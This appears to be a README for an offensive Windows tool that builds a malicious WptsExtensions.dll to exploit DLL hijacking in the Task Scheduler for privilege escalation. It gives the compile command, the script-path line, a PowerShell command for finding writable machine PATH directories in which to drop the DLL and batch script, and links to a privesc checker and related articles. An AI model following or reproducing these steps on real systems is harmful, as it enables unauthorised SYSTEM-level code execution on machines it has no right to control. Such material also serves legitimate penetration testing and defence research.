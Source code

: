 ## WptsExtensions.dll for exploiting DLL Hijacking of the task scheduler  
  
- Load x64 visual studio environnement variables:  
```
C:\Program Files (x86)\Microsoft Visual Studio\2019\Community\VC\Auxiliary\Build\vcvars64.bat
```
  
- Go inside your source dir and run (BUILD MANUALLY to avoid unwanted dependencies):  
```
cl /LD /MT /EHa dllmain.cpp /Fe:WptsExtensions.dll
```
  
- Update bat script path:  
```
const TCHAR script[] = TEXT("C:\\Python27\\script.bat"):  
```
  
- Drop the DLL and script.bat in your writable directory (from the machine PATH)
```
powershell -Command "[System.Environment]::GetEnvironmentVariable('PATH','Machine')"
```
  
- Reboot  
  
Tool to use during your privesc:  
[https://github.com/itm4n/PrivescCheck](https://github.com/itm4n/PrivescCheck)  
  
Articles:  
[https://itm4n.github.io/windows-dll-hijacking-clarified/](https://itm4n.github.io/windows-dll-hijacking-clarified/)  
[http://remoteawesomethoughts.blogspot.com/2019/05/windows-10-task-schedulerservice.html](http://remoteawesomethoughts.blogspot.com/2019/05/windows-10-task-schedulerservice.html)